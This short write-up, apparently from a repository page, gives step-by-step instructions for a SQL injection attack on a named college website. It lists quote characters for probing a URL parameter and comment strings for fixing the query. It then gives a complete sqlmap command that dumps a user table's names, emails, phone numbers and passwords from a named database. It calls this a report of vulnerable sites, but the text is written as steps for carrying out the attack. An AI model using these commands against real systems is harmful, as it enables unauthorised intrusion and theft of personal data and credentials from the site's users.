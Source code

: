By using SQL we will perform sql injection by using following steps:

Steps to preform attack: 


Step1: open the link in the browser 
https://hmmcollege.ac.in/old_site/index.php/Frontend/about_dept?id=1 
Step2: we have to find input parameter  
\     ‘     “     “)     ‘) 
Step3: then we have to fix the query 
‘ --+    
“ --+   “) --+  ‘)  --+ 
Step4: then we have to perform the attack 
sqlmap -u "https://hmmcollege.ac.in/old_site/index.php/Frontend/about_dept?id=1*" --batch -
banner --risk=3 --level=3 -D hmmcolle_demo_db -T king_user -C  
name,status,dept_id,email,moblie,password,updated_on,user_id,user_type_id –dump

Here is the report of those website which is vulnerable for sql injection
